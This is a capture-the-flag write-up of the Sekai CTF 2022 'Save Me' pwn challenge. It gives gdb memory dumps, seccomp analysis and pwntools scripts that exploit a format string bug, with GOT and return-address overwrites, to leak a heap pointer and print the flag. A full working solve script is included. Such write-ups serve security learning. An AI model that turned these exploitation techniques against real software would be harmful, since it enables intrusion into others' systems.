


## Introduction

Name | Category |Author | Difficulty | Solves
---- | -------- | ------ | ---------- | ------
[Save Me](https://2022.ctf.sekai.team/challenges/#Save-Me-14) | pwn | Jonathan | Normal (2) | 44

Save Me was a pwn challenge from Sekai CTF 2022, which happened from Friday, September 30th 2022 12:00pm to Sunday, October 2nd 2022 12:00pm EDT (48 hours). The ctf was hosted by [Project Sekai](https://sekai.1a23.studio/). I played with PPP and got help from [f0xtr0t](https://twitter.com/jay_f0xtr0t) and panda.

## Description

> I got lost in my memory. Please save me!

[`saveme`](saveme/saveme), [`ld-2.31.so`](saveme/ld-2.31.so), [`libc-2.31.so`](saveme/libc-2.31.so), [`libseccomp.so.2.5.1`](saveme/libseccomp.so.2.5.1)

## First look

First things first:

```
$ checksec saveme
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fc000)
```

Partial RELRO and no PIE. Got it. Let's look through it through a decompiler. After renaming some things:


`main()` calls `read_flag()`, `init(&buf)`, `seccomp()`. Then, after giveing us a pointer to the buffer on the stack, it asks us to choose an option. Option 1 does nothing. Option 2 calls `scanf("%80s", &buf)` then does a `printf(&buf)`, puts a new line, then exits. Ok, we know the address of the buffer, and we clearly have a format string vulnerability. Let's see what other functions do:



`read_flag()` allocates memory for the `flag` (`flag = malloc(0x50)`), opens and reads `flag.txt` into `flag` buffer, closes the file, and just returns. So the pointer is lost - perhaps might be left somewhere on the stack.


`init(buf)` sets `0x50` bytes in `buf` to 0; since `scanf` from `main` only reads 80 bytes, this checks out. `init` then does `mmap(0x405000, 0x1000, 7, 0x22, 0, 0)`, which `mmap`s a page of memory at `0x405000`, with `rwx`! We have a format string vulnerability and an `rwx` region, so this should definitely be solvable. `rwx` region also screams shellcode, so probably might need to do that as well. All is good.



There's some seccomp going on, but I am too lazy to figure out what those constants are and what they mean, so I'm just going to use [`seccomp tools`](https://github.com/david942j/seccomp-tools):

```
$ seccomp-tools dump ./saveme
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x07 0xc000003e  if (A != ARCH_X86_64) goto 0009
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x04 0xffffffff  if (A != 0xffffffff) goto 0009
 0005: 0x15 0x02 0x00 0x00000000  if (A == read) goto 0008
 0006: 0x15 0x01 0x00 0x00000001  if (A == write) goto 0008
 0007: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0009
 0008: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0009: 0x06 0x00 0x00 0x00000000  return KILL
 ```

 Oh. Only `read` and `write` are allowed. This means we can't just pop a shell with shellcode. There's no `open`, so it also means that we cannot do open-read-write shellcode. The `read` and `write` seems like they're enabled because the program itself uses those, but other than that it's not too useful. If only we could find a flag somewhere within the program, then we will be able to `write` it to `stdout`.

## Looking for the flag

We do know that the flag is somewhere, it's in the heap. The pointer to the flag also may or may not be on the stack, so let's dig through gdb. Let's look at the stack when we pass it option 2 and pass the input `AAAAAAAABBBBBBBB`.

(Note: to run it locally, there needs to be a `flag.txt` in the directory. The local flag I put is `flag{this_is_a_local_fake_flag}`)

```
pwndbg> x/32gx $rsp
0x7ffcb4163510: 0x0000000000000000      0x0000000000000002
0x7ffcb4163520: 0x4141414141414141      0x4242424242424242 ; buf
0x7ffcb4163530: 0x0000000000000000      0x0000000000000000
0x7ffcb4163540: 0x0000000000000000      0x0000000000000000
0x7ffcb4163550: 0x0000000000000000      0x0000000000000000
0x7ffcb4163560: 0x0000000000000000      0x0000000000000000
0x7ffcb4163570: 0x00007ffcb4163670      0x750e8d36f76bc400
0x7ffcb4163580: 0x0000000000000000      0x00007febb9ad30b3
0x7ffcb4163590: 0x00007febb9cf2620      0x00007ffcb4163678
0x7ffcb41635a0: 0x0000000100000000      0x00000000004013f4
0x7ffcb41635b0: 0x0000000000401560      0x8d06063acf9b98c6
0x7ffcb41635c0: 0x0000000000401130      0x00007ffcb4163670
0x7ffcb41635d0: 0x0000000000000000      0x0000000000000000
0x7ffcb41635e0: 0x72ff6e16a4bb98c6      0x72d17560af5598c6
0x7ffcb41635f0: 0x0000000000000000      0x0000000000000000
0x7ffcb4163600: 0x0000000000000000      0x0000000000000001
```

We see our input at `0x7ffcb4163520`. But other than that, we see stack addresses and the code section's addresses, not the heap. The heap, by the way, is given as such:

```
pwndbg> vmmap
...
         0x21a9000          0x21ca000 rw-p    21000 0      [heap]
...
```

Because this is `main`'s stack, and `read_flag` would have had the heap address for the flag on the stack at some point, let's look a little down the stack.

```
pwndbg> x/32gx $rsp-0x100
0x7ffcb4163410: 0x0000000000000000      0x0000000000000000
0x7ffcb4163420: 0x00007ffcb4163580      0x00007febb9b12192
0x7ffcb4163430: 0x0000003000000008      0x00007ffcb4163510
0x7ffcb4163440: 0x00007ffcb4163450      0x750e8d36f76bc400
0x7ffcb4163450: 0x00000000021a9ea0      0x00007ffcb4163520
0x7ffcb4163460: 0x0000000000000000      0x0000000000000000
0x7ffcb4163470: 0x0000000000000027      0x0000000000000027
0x7ffcb4163480: 0x0000000000000d68      0x000000000000000a
0x7ffcb4163490: 0x00007febb9c9c6a0      0x0000000000402131
0x7ffcb41634a0: 0x00000000004040c0      0x00007febb9c984a0
0x7ffcb41634b0: 0x0000000000000000      0x00007febb9b3fec3
0x7ffcb41634c0: 0x000000000000000a      0x00007febb9c9c6a0
0x7ffcb41634d0: 0x0000000000402131      0x00007febb9b335ca
0x7ffcb41634e0: 0x0000000000401560      0x00007ffcb4163580
0x7ffcb41634f0: 0x0000000000401560      0x00007febb9cf4190
0x7ffcb4163500: 0x000000000000000e      0x0000000000401511
```

Ah, we see one pointer in the stack - `0x21a9ea0` at `0x7ffcb4163450`. Over many runs, we can see that this heap pointer is at the same relative offset from our buffer, i.e. the heap pointer is at address `buf-0xd0`. ASLR still keeps the lower 12 bits constant, and over many runs we see the same lower three nibbles `ea0`. The flag also should be in the same place in the heap relative to the heap base, so let's look through the heap and find it:

```
pwndbg> x/256gx 0x21a9000
...
0x21a9280:      0x0000000000000000      0x0000000000000000
0x21a9290:      0x0000000000000000      0x0000000000000061
0x21a92a0:      0x6968747b67616c66      0x6c5f615f73695f73
0x21a92b0:      0x6b61665f6c61636f      0x0a7d67616c665f65
0x21a92c0:      0x0000000000000000      0x0000000000000000
0x21a92d0:      0x0000000000000000      0x0000000000000000
...
```

We see the flag string at `0x21a92a0`, and surely enough the three nibbles `2a0` is constant every time the program is run. So now we know the address of `buf` (given by the program), the address where a pointer to the heap is stored (`buf-0xd0`), and the offset from that heap address to the flag (`*(buf-0xd0)-0xc00`). Now, we have arbitrary write, and we know where the flag is relatively. How hard could this be?

## Format strings

Well, we need the address of the heap pointer leaked. That's easy, we know the address of where that pointer is, so we can just put that in the buffer and the `printf` will print it out. Oh, but the program terminates after that. We want the program to repeat at least once, then. The first thing that comes to mind is overwriting the return address with `main` address. But there's a problem - `seccomp` only allows syscalls of `read` and `write`, so any other syscalls (even seccomp!) will kill the program. No problem, let's directly jump to where it calls the second `scanf`, i.e. `0x4014f9`. Wait, there's another problem: the saved `rbp` is 0 (at `0x7ffcb4163580`), so anything that dereferences `buf` will be an invalid pointer (`buf` is `rbp-0x60`). So to pull this off, we have to write 8 bytes for saved return address, and also saved rbp for `rbp`.

After spending more time than I should have trying to relearn format strings and debugging, I realized that the arbitrary write can only 2 bytes per `%n`, although it does technically write 4 bytes. (Or at the time, I thought so. Later, I played around with sizes and it seems like somewhere around `0x20000` bytes of characters to be printed, `printf` will call `malloc` on a large enough size that it will call `mmap`, which is a syscall not allowed by seccomp.) Anyway, with two bytes that can be written per write, there just is not enough space in the buffer to do 16 bytes worth of writing.

The next idea was to overwrite the `GOT` entry for `putc`, and make it point to the second `scanf` call (i.e. `0x4014f9`). This way, we only need 3 byte overwrite. This is possible - in fact, we can also leak the heap address at the same time!

```py
from pwn import *

p = process('./saveme')
elf = ELF('./saveme')

putc_got = elf.got['putc']

p.sendline(b'2')
p.recvuntil(b'gift: 0x')
buf_addr = unpack(unhex(p.recvuntil(b'|', drop=True).strip()), word_size=48, endian='big')

payload  = b'%64p'      # write 0x40
payload += b'%12$n'     # at putc_got+2
payload += b'%5305p'    # write 0x14f9
payload += b'%13$hn'    # at putc_got
payload += b'%14$s'     # leak heap address

payload += b'\x00'*(8-(len(payload)%8)) + p64(putc_got+2) + p64(putc_got) + p64(buf_addr-0xd0)

p.sendline(payload)
```

But the program crashes. Specifically, it crashes at `movaps` instruction inside `scanf`. [`movaps`](https://stackoverflow.com/questions/51070716/glibc-scanf-segmentation-faults-when-called-from-a-function-that-doesnt-align-r) instruction requires [16 byte alignment of the stack pointer](https://stackoverflow.com/questions/51070716/glibc-scanf-segmentation-faults-when-called-from-a-function-that-doesnt-align-r), but `call putc` instruction offsets the stack pointer by 8 bytes, which is not fixed because we make it point to the middle of `main`, not the start of a function. Hmm. But if the problem is misalignment by 8 bytes due to a call, then two calls would surely fix it!

Now we overwrite the `GOT` entry of `putc` to point to the `call __stack_chk_fail` at `0x40154b`, and overwrite `GOT` entry of `__stack_chk_fail` to point to the second call to `scanf`, at `0x4014f9`. So we would like to write values of `0x40` at two places, `0x14f9`, then `0x154b` (`printf` does not clear out the count of bytes written after `%n`, so the values to be written need to be increasing). We can do this:

```py
from pwn import *

p = process('./saveme')
elf = ELF('./saveme')

putc_got = elf.got['putc']
stk_got = elf.got['__stack_chk_fail']

p.sendline(b'2')
p.recvuntil(b'gift: 0x')
buf_addr = unpack(unhex(p.recvuntil(b'|', drop=True).strip()), word_size=48, endian='big')

payload  = b'%64p'      # 0x40
payload += b'%13$n%14$n'# at putc_got+2 and stk_got+2
payload += b'%5305p'    # 0x14f9
payload += b'%15$hn'    # at stk_got
payload += b'%82p'      # 0x154b
payload += b'%16$hn'    # at putc_got
payload += b'\x00'*(8-(len(payload)%8)) + p64(putc_got+2) + p64(stk_got+2) + p64(stk_got) + p64(putc_got)

p.sendline(payload)
```

We step through gdb and confirm that `scanf` finishes without crashing! Now we have infinite loop of `scanf` - `printf`, let's go leak the heap address and get the flag!

```
pwndbg> x/32gx $rsp-0x100
0x7ffcaf349810: 0x0000000000000000      0x0000000000000000
0x7ffcaf349820: 0x00007ffcaf349990      0x00007f109ac43192
0x7ffcaf349830: 0x0000003000000008      0x00007ffcaf349910
0x7ffcaf349840: 0x00007ffcaf349850      0xf2f7e6746ae2d000
0x7ffcaf349850: 0x00007ffcaf349860      0x00007ffcaf349930
0x7ffcaf349860: 0x0000000000000000      0x0000000000000000
0x7ffcaf349870: 0x000000000000154b      0x000000000000154b
0x7ffcaf349880: 0x000000000000000a      0x000000007fffffff
0x7ffcaf349890: 0x0000000000000d68      0x000000000000000a
0x7ffcaf3498a0: 0x00007f109adcd6a0      0x0000000000402131
0x7ffcaf3498b0: 0x00000000004040c0      0x00007f109adc94a0
0x7ffcaf3498c0: 0x0000000000000000      0x00007f109ac70ec3
0x7ffcaf3498d0: 0x000000000000000a      0x00007f109adcd6a0
0x7ffcaf3498e0: 0x0000000000402131      0x00007f109ac645ca
0x7ffcaf3498f0: 0x0000000000401560      0x00007ffcaf349990
0x7ffcaf349900: 0x0000000000401560      0x0000000000401511
```

Except the heap address is gone.  The `scanf` after the loop overwrites the only heap pointer and that's it. What we need to do, then, is in the first `printf`, we have to both set up the loop and also leak the heap address.

```py
from pwn import *

p = process('./saveme')
elf = ELF('./saveme')

putc_got = elf.got['putc']
stk_got = elf.got['__stack_chk_fail']

p.sendline(b'2')
p.recvuntil(b'gift: 0x')
buf_addr = unpack(unhex(p.recvuntil(b'|', drop=True).strip()), word_size=48, endian='big')

payload  = b'%64p'      # 0x40
payload += b'%14$n%15$n'# at putc_got+2 and stk_got+2
payload += b'%5305p'    # 0x14f9
payload += b'%16$hn'    # at stk_got
payload += b'%82p'      # 0x154b
payload += b'%17$hn'    # at putc_got
payload += b'%18$s'     # leak heap address
payload += b'\x00'*(8-(len(payload)%8)) + p64(putc_got+2) + p64(stk_got+2) + p64(stk_got) + p64(putc_got) + p64(buf_addr-0xd0)

p.sendline(payload)
```

This is as reduced of a payload as I got. We have 80 characters, and we need 5 addresses inside, which means we only have 40 bytes for the format string. We need to write 0x40 twice, and since 0x40 is the lowest value we need to write it first. This means that the latter two byte writes have to be just two bytes (i.e. `%hn`); if done with `%n`, then the 0x40 we wrote will be overwritten with 0s. This payload results in:

```
pwndbg> x/32gx $rsp
0x7ffc1d1ee820: 0x0000000000000000      0x0000000000000002
0x7ffc1d1ee830: 0x2434312570343625      0x35256e243531256e
0x7ffc1d1ee840: 0x2436312570353033      0x3125703238256e68
0x7ffc1d1ee850: 0x243831256e682437      0x0000000000000073 <<< 1 byte!!!!!
0x7ffc1d1ee860: 0x0000000000404072      0x000000000040403a
0x7ffc1d1ee870: 0x0000000000404038      0x0000000000404070
0x7ffc1d1ee880: 0x00007ffc1d1ee900      0x9cf432c27f7bc200
0x7ffc1d1ee890: 0x0000000000000000      0x00007fb756f620b3
```

This payload is 88 bytes, because the format string part was over by 1 single byte, so the last part (`p64(buf_addr-0xd0)`) is not written. 

At this point, we tried looking through memory to find any heap pointers, but there were literally none. Theoretically we can get the flag, because we have infinitely many `scanf` and `printf` with a format string vulnerability. This means we have as many writes and reads as possible, which means we could slowly write an egg hunter shellcode in the rwx region, write a rop chain on the stack to the rwx region, and get the flag that way. In fact, f0xtr0t even wrote the shellcode, so all I needed to do was to write that shellcode to the rwx region and write a rop chain. However, at this point I've spent so much time on this problem and on this idea of just using the heap pointer on the stack, that I was pretty determined to solve it this way. (I also didn't want to go the other route because it sounded too much work.)

(On a sidenote, if the last character of the format string part of the payload were an "r" instead of an "s", because `putc_got+2` is `0x404072`, and "r" is `0x72`, I could've used that to overlap that address on there, making the payload 80 bytes. It would have been very cool if that were possible, but sadly it was not.)

Then panda came up with the idea to overwrite the return address of `printf` itself when it's executing. With this, we only need 1 write to have a loop (!) because the return address of `printf` is somewhere in `main`, which has some address of `0x40....`. We can therefore just write the lower two bytes; because this takes so little space, we can also leak the heap address at the same time. With the leak, we can use `scanf` and `printf` again to then print out the flag.

Final script:

```py
from pwn import *

#p = remote('challs.ctf.sekai.team', 4001)
p = process('./saveme')

p.sendline(b'2')
p.recvuntil(b'gift: 0x')
buf_addr = unpack(unhex(p.recvuntil(b'|', drop=True).strip()), word_size=48, endian='big')
printf_ret = buf_addr - 0x18

payload = b'%5369p'     # 0x14f9
payload += b'%11$hn'    # write that over the lowest two bytes of printf's return address
payload += b'%12$s'     # heap address leak

payload += b'\x00'*(8-(len(payload)%8)) + p64(printf_ret) + p64(buf_addr-0xd0)

p.sendline(payload)
p.recvuntil(b'0xa')
heap_addr = p.recv().strip()
print(heap_addr)
flag_addr = unpack(heap_addr, 'all', endian='little') - 0xc00

p.sendline(b'%9$s\x00\x00\x00\x00' + p64(flag_addr))    # print flag
print(p.recvall().decode('utf-8'))
```

Let's check on local:

```
$ python3 solve.py
[+] Starting local process './saveme': pid 6115
b'\xa0\xde\xe2'
[+] Receiving all data: Done (32B)                                                                                                                        [*] Process './saveme' stopped with exit code 0 (pid 6115)
flag{this_is_a_local_fake_flag}
```

:flage:

## Flag

```
SEKAI{Y0u_g0T_m3_n@w_93e127fc6e3ab73712408a5090fc9a12}
```

## Afterthoughts

Based on the fact that there is an rwx region and that the flag says somethign about `GOT`, I assumed this was an unintended solution, and the intended solution was egg hunter and rop chains. Welp. Although I bashed my head against this challenge for a very long time, I liked this challenge - it got me to understand format strings very well, and also think about bunch of ways to solve this problem. I also first learned about the egg hunter shellcode. Thanks for the interesting challenge! (I also really liked the website design)

I'm curious whether the payload being exactly 1 byte over when trying to do `putc -> __stack_chk_fail` route was intended or not. Also if there is anything that would reduce 1 byte from that payload, let me know. :D
